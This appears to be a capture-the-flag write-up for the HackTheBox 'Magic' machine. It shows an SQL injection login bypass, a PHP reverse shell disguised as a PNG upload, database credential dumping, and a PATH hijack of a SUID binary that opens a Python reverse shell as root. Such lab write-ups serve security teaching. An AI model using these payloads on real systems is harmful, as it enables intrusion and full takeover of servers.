





---
search:
  exclude: true
---
# Magic Writeup

## Introduction :

Magic is a Medium Linux box released back in April 2020. 

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → nmap -vvv -p- 10.10.10.185 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 22/tcp on 10.10.10.185
    Discovered open port 80/tcp on 10.10.10.185
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → nmap -sCV -p22,80 10.10.10.185
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-24 15:26 CEST
    Nmap scan report for 10.10.10.185
    Host is up (0.45s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
    |   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
    |_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Magic Portfolio
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 29.24 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/16 ] [~]
    → gobuster dir -u http://10.10.10.185 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 50
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.185
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2021/06/24 15:44:14 Starting gobuster in directory enumeration mode
    ===============================================================
    /.hta                 (Status: 403) [Size: 277]
    /.htpasswd            (Status: 403) [Size: 277]
    /.htaccess            (Status: 403) [Size: 277]
    /.sh_history          (Status: 403) [Size: 277]
    /assets               (Status: 301) [Size: 313] [--> http://10.10.10.185/assets/]
    /images               (Status: 301) [Size: 313] [--> http://10.10.10.185/images/]
    /index.php            (Status: 200) [Size: 4050]
    /server-status        (Status: 403) [Size: 277]
    
    [ 10.10.14.11/23 ] [ /dev/pts/16 ] [~]
    → gobuster dir -u http://10.10.10.185/images/ -r -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 50
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.185/images/
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Follow Redirect:         true
    [+] Timeout:                 10s
    ===============================================================
    2021/06/24 15:46:26 Starting gobuster in directory enumeration mode
    ===============================================================
    /.sh_history          (Status: 403) [Size: 277]
    /.hta                 (Status: 403) [Size: 277]
    /.htaccess            (Status: 403) [Size: 277]
    /.htpasswd            (Status: 403) [Size: 277]
    /uploads              (Status: 403) [Size: 277]
    
    ===============================================================
    2021/06/24 15:47:11 Finished
    ===============================================================
    
    

So here we see that there is a directory **/images/uploads/** so it's safe to assume that we will need to upload a malicious file:

Now on the first page we see there is a login php page hyperlink at the bottom left, so we're going to intercept the request with burpsuite and see what's up:

So we have the following POST request:
    
    
    POST /login.php HTTP/1.1
    Host: 10.10.10.185
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 29
    Origin: http://10.10.10.185
    Connection: close
    Referer: http://10.10.10.185/login.php
    Cookie: PHPSESSID=d08upquemehq9gte4accrged80
    Upgrade-Insecure-Requests: 1
    
    username=admin&password;=admin
    
    

When we send it as it is, we get the following response:

Let's try to do a SQL injection:
    
    
    #raw
    username=' or 1=1#&password;=admin
    
    #url encoded (select in burp and do CTRL+U)
    username='+or+1%3d1%23&password;=admin
    
    

Use it in the **Proxy** tab in burpsuite, then click Forward. And you will be greeted by the following:

Now let's make a malicious png file to upload there. Since we know that this box has php on it we're going to make a simple php reverse shell:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → vim rev.php
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → cat rev.php
    <****?php
    exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.11/9001 0>&1'");
    ?****>
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → sudo apt install exiftool -y
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → wget https://blog.nowhere.moe/assets/img/user.png -O rev.png
    --2021-06-24 16:15:12--  https://blog.nowhere.moe/assets/img/user.png
    Resolving blog.nowhere.moe (blog.nowhere.moe)... 185.199.108.153, 185.199.109.153, 185.199.111.153, ...
    Connecting to blog.nowhere.moe (blog.nowhere.moe)|185.199.108.153|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 14891 (15K) [image/png]
    Saving to: ‘rev.png’
    
    rev.png                                                       100%[=================================================================================================================================================>]  14.54K  --.-KB/s    in 0.02s
    
    2021-06-24 16:15:14 (816 KB/s) - ‘rev.png’ saved [14891/14891]

Now basically we want the magic bytes of that png file (first few bytes of a png image) and then we want to concatenate the magic bytes to our php reverse shell file like so:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → head -c20 rev.png | xxd
    00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
    00000010: 0000 01f4                                ....
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → head -c10 rev.png | xxd
    00000000: 8950 4e47 0d0a 1a0a 0000                 .PNG......
    

Here we grab the first few bytes until the first nullbyte, and save it to another file:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → head -c72 rev.png | xxd
    00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
    00000010: 0000 01f4 0000 01f4 0806 0000 00cb d6df  ................
    00000020: 8a00 0000 0173 5247 4200 aece 1ce9 0000  .....sRGB.......
    00000030: 0004 6741 4d41 0000 b18f 0bfc 6105 0000  ..gAMA......a...
    00000040: 0009 7048 5973 0000                      ..pHYs..
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → head -c72 rev.png > png-magic-bytes.png
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → file png-magic-bytes.png
    png-magic-bytes.png: PNG image data, 500 x 500, 8-bit/color RGBA, non-interlaced
    
    

So we concatenate them together:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → cat png-magic-bytes.png rev.php
    PNG
    
    IHDߊsRGBgAMA
                a   pHYs<****?php
    exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.11/9001 0>&1'");
    ?****>
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → cat png-magic-bytes.png rev.php > magic.php.png
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → file magic
    magic: cannot open `magic' (No such file or directory)
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → file magic.php.png
    magic.php.png: PNG image data, 500 x 500, 8-bit/color RGBA, non-interlaced

And now we have our reverse php shell with the magic bytes of a png file. So let's upload the image:

 

Now that the image has been uploaded, we attempt to trigger the reverse shell by browsing to it at the **/images/uploads/magic.php.png** path we found earlier:

And we get a reverse shell!
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/24 ] [~/HTB/magic]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.185] 51376
    bash: cannot set terminal process group (1135): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/Magic/images/uploads$
    
    

Now let's upgrade our reverse shell to a fully interactive TTY:
    
    
    www-data@ubuntu:/var/www/Magic/images/uploads$ which python python3 curl wget
    which python python3 curl wget
    /usr/bin/python3
    /usr/bin/wget
    www-data@ubuntu:/var/www/Magic/images/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@ubuntu:/var/www/Magic/images/uploads$ ^Z
    [1]  + 1387803 suspended  nc -lvnp 9001
    
    [ 10.10.14.11/23 ] [ /dev/pts/24 ] [~/HTB/magic]
    → stty raw -echo ; fg
    [1]  + 1387803 continued  nc -lvnp 9001
                                           export TERM=screen-256color
    www-data@ubuntu:/var/www/Magic/images/uploads$ export SHELL=bash
    www-data@ubuntu:/var/www/Magic/images/uploads$ stty rows 40 columns 225
    www-data@ubuntu:/var/www/Magic/images/uploads$ reset
    

And now that we have a fully interactive TTY let's take a look around the web directory:
    
    
    www-data@ubuntu:/var/www/Magic/images/uploads$ cd ~
    www-data@ubuntu:/var/www$ ls -lash
    total 16K
    4.0K drwxr-xr-x  4 root     root     4.0K Mar 13  2020 .
    4.0K drwxr-xr-x 15 root     root     4.0K Oct 15  2019 ..
    4.0K drwxr-xr-x  4 www-data www-data 4.0K Mar 17  2020 Magic
    4.0K drwxr-xr-x  2 root     root     4.0K Dec  3  2019 html
    www-data@ubuntu:/var/www$ cat Magic/db.php5
    <****?php
    class Database
    {
        private static $dbName = 'Magic' ;
        private static $dbHost = 'localhost' ;
        private static $dbUsername = 'theseus';
        private static $dbUserPassword = 'iamkingtheseus';
    
        private static $cont  = null;
    
        public function __construct() {
            die('Init function is not allowed');
        }
    
        public static function connect()
        {
            // One connection through whole application
            if ( null == self::$cont )
            {
                try
                {
                    self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
                }
                catch(PDOException $e)
                {
                    die($e->getMessage());
                }
            }
            return self::$cont;
        }
    
        public static function disconnect()
        {
            self::$cont = null;
        }
    }

Now here we have potential credentials for a local database with the user **theseus** so let's try to dump the database contents with it:
    
    
    www-data@ubuntu:/var/www$ mysqldump -u theseus Magic -p > /tmp/database.dump
    Enter password: iamkingtheseus
    
    www-data@ubuntu:/var/www$ cat /tmp/database.dump | grep admin
    INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
    
    

And now we have credentials for the user 'theseus' so let's try to use his credentials ::
    
    
    www-data@ubuntu:/var/www$ su theseus
    Password:
    theseus@ubuntu:/var/www$ cd ~
    theseus@ubuntu:~$ cat user.txt
    58XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc to the root user we're going to need to enumerate the box using linpeas.sh:
    
    
    [terminal 1]
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → cp /home/nothing/HTB/obscurity/linpeas.sh .
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal 2]
    theseus@ubuntu:~$ wget http://10.10.14.11:9090/linpeas.sh -O /tmp/peas.sh
    --2021-06-25 00:53:01--  http://10.10.14.11:9090/linpeas.sh
    Connecting to 10.10.14.11:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                    100%[====================================================>] 333.85K   171KB/s    in 1.9s
    
    2021-06-25 00:53:04 (171 KB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    theseus@ubuntu:~$ chmod +x /tmp/peas.sh
    theseus@ubuntu:~$ /tmp/peas.sh
    
    

` 

Let linpeas.sh run a bit, then scrolling through the output we see the following SUID binary:

Apparently there is an unknown SUID binary in **/bin/sysinfo** so let's run it to see what it does:
    
    
    theseus@ubuntu:~$ /bin/sysinfo --help
    ====================Hardware Info====================
    H/W path           Device      Class      Description
    =====================================================
                                   system     VMware Virtual Platform
    /0                             bus        440BX Desktop Reference Platform
    /0/0                           memory     86KiB BIOS
    /0/1                           processor  AMD EPYC 7401P 24-Core Processor
    /0/1/0                         memory     16KiB L1 cache
    /0/1/1                         memory     16KiB L1 cache
    /0/1/2                         memory     512KiB L2 cache
    /0/1/3                         memory     512KiB L2 cache
    /0/2                           processor  AMD EPYC 7401P 24-Core Processor
    /0/28                          memory     System Memory
    /0/28/0                        memory     4GiB DIMM DRAM EDO
    /0/28/1                        memory     DIMM DRAM [empty]
    /0/28/2                        memory     DIMM DRAM [empty]
    /0/28/3                        memory     DIMM DRAM [empty]
    /0/28/4                        memory     DIMM DRAM [empty]
    /0/28/5                        memory     DIMM DRAM [empty]
    /0/28/6                        memory     DIMM DRAM [empty]
    /0/28/7                        memory     DIMM DRAM [empty]
    /0/28/8                        memory     DIMM DRAM [empty]
    
    [...]
    
    bugs            : fxsave_leak sysret_ss_attrs null_seg spectre_v1 spectre_v2 spec_store_bypass
    bogomips        : 4000.00
    TLB size        : 2560 4K pages
    clflush size    : 64
    cache_alignment : 64
    address sizes   : 43 bits physical, 48 bits virtual
    power management:
    
    
    ====================MEM Usage=====================
                  total        used        free      shared  buff/cache   available
    Mem:           3.8G        562M        1.8G        3.9M        1.5G        3.0G
    Swap:          947M          0B        947M
    
    theseus@ubuntu:~$
    
    

It basically gives a bunch of infos about the system. Now before our shell breaks, let's get our ssh public key onto the box in order to access that user more easily:
    
    
    theseus@ubuntu:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAfhgjcMFy5mO4fwhQyW6vdX5bgTzqZTh9MhCW7+k6Sj nothing@nowhere' > ~/.ssh/authorized_keys
    
    [ 10.66.66.2/32 ] [ /dev/pts/29 ] [~/HTB/magic]
    → ssh theseus@10.10.10.185 -i ~/.ssh/mainpc
    Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-42-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    29 packages can be updated.
    0 updates are security updates.
    
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    Your Hardware Enablement Stack (HWE) is supported until April 2023.
    theseus@ubuntu:~$
    
    

Let's monitor the processes ran by root using pspy:
    
    
    [terminal 1]
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → cp /home/nothing/HTB/book/pspy64s .
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/magic]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal 2]
    theseus@ubuntu:~$ wget http://10.10.14.11:9090/pspy64s -O /tmp/pspy
    --2021-06-25 01:02:54--  http://10.10.14.11:9090/pspy64s
    Connecting to 10.10.14.11:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1156536 (1.1M) [application/octet-stream]
    Saving to: ‘/tmp/pspy’
    
    /tmp/pspy                                                     100%[=================================================================================================================================================>]   1.10M   382KB/s    in 3.0s
    
    2021-06-25 01:02:58 (382 KB/s) - ‘/tmp/pspy’ saved [1156536/1156536]
    
    theseus@ubuntu:~$ chmod +x /tmp/pspy
    theseus@ubuntu:~$ /tmp/pspy
    
    

` 

Now on another shell we run **sysinfo** on the box and observe what it does from pspy:

Now here we see that sysinfo basically executes **lshw** so we should be able to create our own lshw with a reverse python3 shell into it, and we would change the **PATH** variable to make sure our binary file takes priority over the other lshw:
    
    
    theseus@ubuntu:~$ cd /tmp
    theseus@ubuntu:/tmp$ mkdir nihilist
    theseus@ubuntu:/tmp$ cd nihilist/
    theseus@ubuntu:/tmp/nihilist$ nano lshw
    theseus@ubuntu:/tmp/nihilist$ cat lshw
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    
    theseus@ubuntu:/tmp/nihilist$ chmod +x lshw
    theseus@ubuntu:/tmp/nihilist$ PATH=$PATH:$(pwd)
    theseus@ubuntu:/tmp/nihilist$ echo $PATH
    .:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/tmp/nihilist
    
    

Now let's run sysinfo again 
    
    
    [terminal 1]
    theseus@ubuntu:/tmp/nihilist$ sysinfo
    ====================Hardware Info====================
    
    [terminal 2]
    [ 10.66.66.2/32 ] [ /dev/pts/35 ] [~/HTB/magic]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.185] 51382
    # id
    uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
    ca cat /root/root.txt
    acXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get a reverse shell as the root user.

## **Conclusion**

Here we can see the progress graph :

